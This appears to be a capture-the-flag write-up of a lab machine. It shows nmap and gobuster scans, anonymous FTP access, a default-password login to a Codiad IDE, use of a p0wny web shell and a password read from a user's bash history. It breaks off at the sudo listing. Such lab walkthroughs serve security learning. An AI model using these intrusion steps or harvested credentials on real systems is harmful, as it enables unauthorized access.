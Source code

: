 ## Tristan Gomez

`Gain a shell on the box and escalate your privileges!`

nmap
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~]
└─$ nmap -sV 10.10.120.122
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-25 13:26 PST
Nmap scan report for 10.10.120.122
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
62337/tcp open  http       Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.88 seconds
```

* anonymous ftp is allowed. Found a file named `-`. Its contents are...
```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

* `john` and `drac` are potential users.

gobuster
```
└─$ gobuster dir -w common.txt -x php,html,js,txt -u 10.10.120.122
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.120.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,js,txt,php
[+] Timeout:                 10s
===============================================================
2022/01/25 13:30:01 Starting gobuster in directory enumeration mode
===============================================================
/.hta.txt             (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.hta.html            (Status: 403) [Size: 278]
/.hta.js              (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htaccess.js         (Status: 403) [Size: 278]
/.htpasswd.js         (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10918]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 278]  

```

http://10.10.120.122:62337 -> codidad 2.8.4 login page -> john:password

```

p0wny@shell:â¦/codiad/exploit# ls
shell.php

p0wny@shell:â¦/codiad/exploit# pwd
/var/www/html/codiad/exploit

p0wny@shell:â¦/codiad/exploit# whoami
www-data

p0wny@shell:â¦/codiad/exploit# cd /home


p0wny@shell:/home# ls
drac

p0wny@shell:/home# ls -la
total 12
drwxr-xr-x  3 root root 4096 Jun 17  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
drwxr-xr-x  6 drac drac 4096 Aug  4 07:06 drac

p0wny@shell:/home# cd drac


p0wny@shell:/home/drac# ls
user.txt

p0wny@shell:/home/drac# ls -la
total 52
drwxr-xr-x 6 drac drac 4096 Aug  4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11  2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18  2021 .config
drwx------ 4 drac drac 4096 Jun 18  2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-r-------- 1 drac drac   33 Jun 18  2021 user.txt
```
p0wny@shell:/home/drac# cat user.txt
cat: user.txt: Permission denied
```

```
p0wny@shell:/home/drac# cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

```
drac@ide:~$ ls
user.txt
drac@ide:~$ cat user.txt
02930d21a8eb009f6d26361b2d24a466
```

```
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart

```

